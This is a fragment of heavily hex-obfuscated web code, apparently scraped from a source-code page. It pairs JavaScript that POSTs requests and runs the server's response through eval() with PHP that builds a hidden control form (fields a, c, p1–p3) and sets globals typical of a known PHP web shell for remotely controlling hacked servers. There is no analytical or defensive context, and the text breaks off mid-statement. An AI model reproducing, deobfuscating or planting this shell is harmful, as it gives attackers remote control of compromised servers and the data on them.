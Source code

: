 \n\x20 \x20\x20    \x69f\x20(w\x69ndo\x77\x2eXMLHt\x74p\x52e\x71u\x65\x73\x74) {\x20\n  \x20 \x20  \x20\x20   r\x65\x71 = ne\x77\x20\x58\x4d\x4c\x48\x74tpR\x65qu\x65s\x74();\x20\n \x20 \x20 \x20\x20\x20   \x20req\x2eo\x6e\x72e\x61d\x79\x73\x74\x61\x74ech\x61\x6e\x67\x65 =\x20p\x72\x6f\x63es\x73\x52eqC\x68an\x67\x65;\x20\n\x20\x20\x20\x20 \x20\x20 \x20\x20\x20 req\x2e\x6f\x70\x65n(\"P\x4fS\x54\",\x20\x75rl, t\x72\x75e)\x3b\x20\n\x20   \x20\x20  \x20   \x72\x65q\x2es\x65\x74\x52eq\x75\x65st\x48\x65ade\x72\x20(\"\x43\x6f\x6e\x74en\x74-T\x79p\x65\x22, \x22\x61\x70pli\x63\x61\x74\x69\x6fn/\x78-w\x77\x77-f\x6frm-u\x72\x6cen\x63\x6fd\x65\x64\");\x20\n\x20   \x20\x20\x20\x20   \x20re\x71.\x73en\x64(\x70a\x72\x61\x6d\x73)\x3b \n\x20\x20\x20\x20 \x20  }  \n\x20    \x20  else \x69\x66 (\x77i\x6edo\x77.\x41ctiv\x65\x58Obj\x65ct)\x20{ \n   \x20  \x20 \x20   r\x65\x71\x20=\x20n\x65\x77 A\x63\x74\x69\x76\x65\x58\x4fbjec\x74(\"\x4di\x63r\x6fsof\x74.XM\x4c\x48\x54TP\"); \n \x20      \x20\x20\x20 i\x66 (\x72e\x71)\x20{\x20\n \x20 \x20    \x20\x20\x20    \x20req.\x6fn\x72\x65ad\x79\x73\x74atec\x68ang\x65 = \x70r\x6f\x63\x65\x73sR\x65qCh\x61\x6eg\x65; \n \x20\x20    \x20\x20\x20 \x20\x20   \x72\x65\x71\x2eope\x6e(\x22PO\x53T\x22,\x20ur\x6c, tru\x65);\x20\n \x20     \x20     \x20 \x20\x72\x65\x71\x2es\x65t\x52eque\x73t\x48ea\x64\x65r\x20(\"C\x6fnt\x65\x6et-\x54ype\x22,\x20\x22applica\x74i\x6f\x6e/\x78-\x77\x77\x77-\x66\x6fr\x6d-\x75r\x6c\x65n\x63\x6f\x64ed\x22)\x3b\x20\n\x20  \x20\x20\x20\x20 \x20\x20\x20\x20\x20\x20\x20\x20\x72eq.se\x6e\x64(pa\x72ams);\x20\n\x20\x20     \x20\x20   }\x20\n       \x20}\x20\n  \x20\x20}\x20\n\x20\x20  \x66uncti\x6f\x6e\x20\x70ro\x63\x65\x73\x73Re\x71Ch\x61ng\x65()\x20{\x20\n\x20  \x20  \x20 \x69f( (r\x65\x71\x2ere\x61dySt\x61\x74\x65\x20=\x3d\x204) ) \n \x20\x20\x20 \x20 \x20\x20\x20  i\x66(\x72e\x71\x2es\x74\x61t\x75\x73\x20=\x3d 20\x30)\x20{ \n\x20\x20 \x20  \x20\x20\x20 \x20\x20 \x20\x20 //al\x65r\x74(r\x65\x71\x2e\x72\x65sp\x6f\x6es\x65T\x65\x78\x74); \n\x20\x20\x20\x20 \x20\x20 \x20   \x20\x20\x20 \x76\x61r\x20re\x67\x20\x3d \x6ee\x77\x20\x52\x65\x67E\x78p(\x22(\x5c\x5c\x64+)([\x5c\x5c\x53\x5c\\\x73]*)\",\x20\"m\x22)\x3b \n \x20   \x20 \x20\x20\x20\x20\x20\x20\x20\x20 va\x72 a\x72\x72\x3d\x72\x65g.ex\x65\x63(\x72\x65\x71\x2er\x65s\x70\x6f\x6es\x65\x54\x65x\x74); \n\x20\x20\x20\x20 \x20\x20\x20\x20       ev\x61\x6c(ar\x72[\x32]\x2esu\x62\x73t\x72(0, a\x72r[\x31]))\x3b\x20\n\x20\x20 \x20\x20 \x20\x20  \x20 }  \n \x20\x20 \x20\x20 \x20   \x20e\x6cs\x65 a\x6ce\x72\x74(\"R\x65\x71\x75e\x73t er\x72o\x72!\"); \n\x20\x20\x20\x20}\x20\n</\x73\x63\x72\x69\x70\x74> \n\x3c\x68\x65a\x64><\x62\x6fdy>\x3c\x64i\x76 \x73\x74\x79\x6c\x65\x3d\"p\x6f\x73itio\x6e:abs\x6flut\x65\x3bw\x69\x64\x74h:1\x300%;t\x6fp:\x30;\x6c\x65ft:\x30;\x22>\x20\n<\x66\x6f\x72m met\x68\x6f\x64\x3dpo\x73\x74\x20\x6e\x61\x6de\x3d\x6d\x66\x20\x73\x74yl\x65=\x27d\x69spla\x79:non\x65;'\x3e\x20\n\x3c\x69\x6ep\x75t\x20\x74ype\x3d\x68\x69\x64\x64e\x6e\x20name=\x61 \x76a\x6cu\x65=\x27";$tdmwcoigygrb="c\x77d_\x6c\x69n\x6bs";echo isset($_POST["a"])?$_POST["\x61"]:"";echo "\x27> \n<in\x70\x75t\x20typ\x65\x3dh\x69\x64d\x65n\x20\x6e\x61\x6de\x3dc\x20val\x75\x65='";echo htmlspecialchars($GLOBALS["c\x77d"]);echo "\x27\x3e \n<\x69nput\x20\x74ype=hid\x64en\x20\x6e\x61\x6de=p\x31 v\x61lu\x65\x3d'";echo isset($_POST["p1"])?htmlspecialchars($_POST["p\x31"]):"";${"GL\x4fB\x41\x4cS"}["\x6a\x66y\x76\x71\x6f\x79"]="\x69";echo "'>\x20\n\x3cinp\x75\x74\x20\x74\x79\x70\x65\x3dh\x69d\x64\x65\x6e \x6e\x61\x6de\x3d\x702\x20va\x6cue='";echo isset($_POST["p2"])?htmlspecialchars($_POST["p2"]):"";${"\x47\x4c\x4fB\x41L\x53"}["\x6dwn\x65\x79p\x69\x79\x6a"]="\x6fp\x74_\x63\x68\x61\x72\x73e\x74\x73";echo "\x27\x3e\x20\n<i\x6ep\x75t\x20\x74\x79pe\x3dhid\x64\x65\x6e\x20\x6e\x61\x6de=p\x33 v\x61l\x75e\x3d'";${"\x47\x4cO\x42ALS"}["\x6d\x74\x64d\x72e\x63\x64\x77j\x71"]="n";$dbswyfrkz="\x64\x72\x69\x76\x65\x73";${"\x47L\x4fB\x41L\x53"}["tm\x79\x63f\x6c\x75r\x75"]="\x74\x6f\x74a\x6c\x53\x70\x61\x63e";echo isset($_POST["p3"])?htmlspecialchars($_POST["\x703"]):"";echo "\x27>